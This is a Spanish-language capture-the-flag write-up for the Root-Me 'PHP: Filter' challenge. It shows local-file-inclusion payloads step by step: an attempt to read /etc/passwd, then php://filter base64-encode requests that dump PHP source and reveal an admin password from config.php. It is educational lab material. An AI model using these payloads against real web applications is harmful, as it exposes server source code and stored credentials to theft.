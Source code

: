 # Machine PHP: Filter

- La maquina tiene esta URL
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=login.php
```
- Al ver que tiene una variable, entonces se puede hacer un LFI, pero al ejecutar esto:
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=/etc/passwd
```
- No funciono, pero como el reto es **filter** y decido buscar informacion, en el cual la solución que me permitió ver la fuente de cualquier archivo PHP es usar esto **php://filter/convert.base64_encode/resource** y le pasamos el archivo para ver el codigo fuente que en este caso es **login.php** de esta manera
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=index.php
```
- Esto obliga a PHP a codificar en base64 el archivo antes de que se use en la instrucción require. Desde este punto, se trata de decodificar la cadena base64 para obtener el código fuente de los archivos PHP. Simple pero efectivo.
```
Ejemplo:

curl http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index

Resultado:

PD9waHAgZWNobygkX0dFVFsneCddKTsgLy8gT01HIHlvdSBib3RoZXJlZCB0byBkZWNvZGUgYmFzZSA2ND8gPz4=
```
- Una vez que tenga el código fuente para un archivo, puede inspeccionarlo para detectar vulnerabilidades adicionales, como inyecciones SQL y archivos PHP adicionales a los que se hace referencia mediante include o require_once.
- Al decifrar ese HASH en base64, este resultado
```
<?php include("ch12.php");?>
```
- Lo que hago es pasar ese archivo como variable asì
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=ch12.php
```
- Pero no funciona entonces uso otra vez el **filter**
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=ch12.php
```
- Me genera otro HASH base64 porque inicia con **PD9** entonces vamos a guardar ese HASH en un archivo para decodificarlo asì
```
$ cat code | base64 --decode > archivo
```
- Como resultado obtengo un codigo php y vamos usar otra vez **filter** para ver el codigo fuente del archivo **config** asì:
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php
```
- Me genera otro HASH en base64 y lo vamos a decifrar en internet y el resultado es este
```
<?php

$username="admin";
$password="DAPt9D2mky0APAF";

?>
```
- Entonces la bandera es el **password**

# Write de reto PHP: Filter

https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/
